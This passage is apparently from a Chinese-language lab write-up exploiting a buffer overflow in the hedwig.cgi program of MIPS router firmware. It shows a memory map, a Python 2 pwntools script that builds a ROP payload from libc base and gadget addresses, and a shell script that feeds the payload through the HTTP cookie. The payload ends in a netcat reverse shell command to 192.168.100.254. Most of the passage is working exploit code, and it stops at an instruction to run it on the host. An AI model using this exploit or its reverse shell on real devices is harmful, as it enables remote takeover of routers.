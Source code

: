 ​    77fa8000-77fd1000 r-xp 00000000 08:01 546761     /lib/libgcc_s.so.1  
​    77fd1000-77fe1000 ---p 00000000 00:00 0   
​    77fe1000-77fe2000 rw-p 00029000 08:01 546761     /lib/libgcc_s.so.1  
​    77fe2000-77fe7000 r-xp 00000000 08:01 547907     /lib/ld-uClibc.so.0  
​    77ff5000-77ff6000 rw-p 00000000 00:00 0   
​    77ff6000-77ff7000 r--p 00004000 08:01 547907     /lib/ld-uClibc.so.0  
​    77ff7000-77ff8000 rw-p 00005000 08:01 547907     /lib/ld-uClibc.so.0  
​    7ffd6000-7fff7000 rwxp 00000000 00:00 0          [stack]  
​    7fff7000-7fff8000 r-xp 00000000 00:00 0          [vdso]

编写exp（注意是py2


​    
​    #!/usr/bin/python2  
​    from pwn import *  
​    context.endian = "little"  
​    context.arch = "mips"  
​    base_addr = 0x77f34000  
​    system_addr_1 = 0x53200-1  
​    gadget1 = 0x45988  
​    gadget2 = 0x159cc  
​      
​    cmd = 'nc -e /bin/bash 192.168.100.254 9999'  
​    padding = 'A' * 973 #1009-4*9  
​    padding += p32(base_addr + system_addr_1) # s0  
​    padding += p32(base_addr + gadget2)       # s1  
​    padding += 'A' * 4                        # s2  
​    padding += 'A' * 4                        # s3  
​    padding += 'A' * 4                        # s4  
​    padding += 'A' * 4                           # s5  
​    padding += 'A' * 4                        # s6  
​    padding += 'A' * 4                        # s7  
​    padding += 'A' * 4                        # fp  
​    padding += p32(base_addr + gadget1)       # ra  
​    padding += 'B' * 0x10  
​    padding += cmd  
​      
​    f = open("context",'wb')  
​    f.write(padding)  
​    f.close()

生成的context通过scp拷贝到mips虚拟机~目录中并且在~目录下创造debug.sh


​    
​    export CONTENT_LENGTH="100"  
​    export CONTENT_TYPE="application/x-www-form-urlencoded"  
​    export HTTP_COOKIE="uid=`cat context`"  
​    export REQUEST_METHOD="POST"  
​    export REQUEST_URI="/hedwig.cgi"  
​    echo "uid=1234"|/htdocs/web/hedwig.cgi

在宿主机运行
